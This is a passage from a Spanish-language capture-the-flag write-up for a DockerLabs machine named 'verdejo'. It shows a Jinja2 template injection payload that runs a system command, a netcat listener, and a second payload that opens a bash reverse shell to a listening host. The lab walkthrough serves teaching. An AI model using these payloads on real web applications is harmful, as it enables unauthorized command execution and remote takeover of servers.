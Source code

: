 ![](assets/img/dockerlabs-writeup-verdejo/verdejo2_5.png)

Para probar la vulnerabilidad, se utilizó la siguiente carga maliciosa que permite ejecutar comandos del sistema.

```
{\{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

> Nota: Se debe eliminar la barra invertida `\` dentro de las llaves `{\{`.
{: .prompt-warning }

![](assets/img/dockerlabs-writeup-verdejo/verdejo2_6.png)

```terminal
/home/kali/Documents/dockerlabs/verdejo:-$ nc -nvlp 4321           
	listening on [any] 4321 ...
```

Para obtener acceso a través de una reverse shell, se utilizó la siguiente carga.

```
{\{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c \'bash -i >& /dev/tcp/192.168.0.171/4321 0>&1\'').read() }}
```
